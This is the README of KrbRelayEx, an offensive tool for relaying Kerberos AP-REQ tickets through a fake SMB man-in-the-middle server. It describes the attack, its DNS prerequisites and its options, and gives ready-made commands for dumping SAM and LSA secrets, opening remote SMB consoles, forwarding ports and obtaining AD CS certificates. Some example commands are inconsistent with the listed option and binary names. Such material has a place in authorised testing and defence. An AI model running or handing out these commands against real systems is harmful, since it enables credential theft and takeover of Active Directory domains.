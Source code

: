 # KrbRelayEx

![Version](https://img.shields.io/badge/version-1.0-blue)  
Kerberos Relay and Forwarder for (Fake) SMB MiTM Server  
Created by [@decoder_it](https://github.com/decoder-it)

---

## Overview

**KrbRelayEx** is a tool designed for performing Man-in-the-Middle (MitM) attacks by relaying Kerberos AP-REQ tickets. It listens for incoming SMB connections and forwards the AP-REQ to the target host, enabling access to SMB shares or HTTP AD CS (Active Directory Certificate Services) endpoints.  

The tool can span several SMB consoles, and the relaying process is completely transparent to the end user, who will seamlessly access the desired share.  

GitHub Repository: [https://github.com/decoder-it/KrbRelayEx](https://github.com/decoder-it/KrbRelayEx)  
Credits: [cube0x0/KrbRelay](https://github.com/cube0x0/KrbRelay)

---

## Features

- Relay Kerberos AP-REQ tickets to access SMB shares or HTTP ADCS endpoints.
- Interactive or background multithreaded SMB consoles for managing multiple connections enabling file manipulation and creating/starting services
- Multithreaded port forwarding to support other protocols.
- Transparent relaying process for seamless user access.
- Runs on Winodws and GNU/Linux with Dotnet 8.0 sdk

## Notes

  - KrbRelayEx intercepts and relays the first authentication attempt,
    then switches to forwarder mode for all subsequent incoming requests.
    You can press any time 'r' for restarting relay mode

  - This tool is particularly effective if you can manipulate DNS names. Examples include:
    - Being a member of the DNS Admins group.
    - Having zones where unsecured DNS updates are allowed in Active Directory domains ==> This means that anonymous users with network access could potentially take over the domain!!!
    - Gaining control over HOSTS file entries on client computers.
  - Background consoles are ideal for managing multiple SMB consoles
  - Similar tools https://github.com/almandin/krbjack
## Usage

```
        #############      KrbRelayEx by @decoder_it     ##############
        # Kerberos Relay and Forwarder for (Fake) SMB MiTM Server     #
        # v1.0 2024                                                   #
        # Github: https://github.com/decoder-it/KrbRelayEx            #
        # Credits: https://github.com/cube0x0/KrbRelay                #
        ###############################################################

Description:
  KrbRelayEx is a tool designed for performing Man-in-the-Middle (MitM) attacks and relaying Kerberos AP-REQ tickets.
  It listens for incoming SMB connections and forward the AP-REQ to the target host, enabling access to SMB shares or HTTP ADCS (Active Directory Certificate Services endpoints)
  The tool can span several SMB consoles, and the relaying process is completely transparent to the end user, who will seamlessly access the desired share.

Usage:
  KrbRelayEx.exe -spn <SPN> [OPTIONS] [ATTACK]

SMB Attacks:
  -console                       Start an interactive SMB console
  -bgconsole                     Start an interactive SMB console in background via sockets
  -list                          List available SMB shares on the target system
  -bgconsolestartport            Specify the starting port for background SMB console sockets (default: 10000)
  -secrets                       Dump SAM & LSA secrets from the target system

HTTP Attacks:
  -endpoint <ENDPOINT>           Specify the HTTP endpoint to target (e.g., 'CertSrv')
  -adcs <TEMPLATE>               Generate a certificate using the specified template

Options:
  -redirectserver <IP>           Specify the IP address of the target server for the attack
  -ssl                           Use SSL transport for secure communication
  -spn <SPN>                     Set the Service Principal Name (SPN) for the target service
  -redirectports <PORTS>         Provide a comma-separated list of additional ports to forward to the target (e.g., '3389,135,5985')
  -smbport <PORT>                Specify the SMB port to listen on (default: 445)

Examples:
  Start an interactive SMB console:
    KrbRelay.exe -spn CIFS/target.domain.com -console -redirecthost <ip_target_host>

  List SMB shares on a target:
    KrbRelay.exe -spn SMB/target.domain.com -list

  Dump SAM & LSA secrets:
    KrbRelay.exe -spn CIFS/target.domain.com -secrets -redirecthost <ip_target_host>

  Start a background SMB console on port 10000 upon relay:
    KrbRelay.exe -spn CIFS/target.domain.com -bgconsole -redirecthost <ip_target_host>

  Generate a certificate using ADCS with a specific template:
    KrbRelay.exe -spn HTTP/target.domain.com -endpoint CertSrv -adcs UserTemplate-redirecthost <ip_target_host>

  Relay attacks with SSL and port forwarding:
    KrbRelay.exe -spn HTTP/target.domain.com -ssl -redirectserver  <ip_target_host> -redirectports 3389,5985,135,443,80

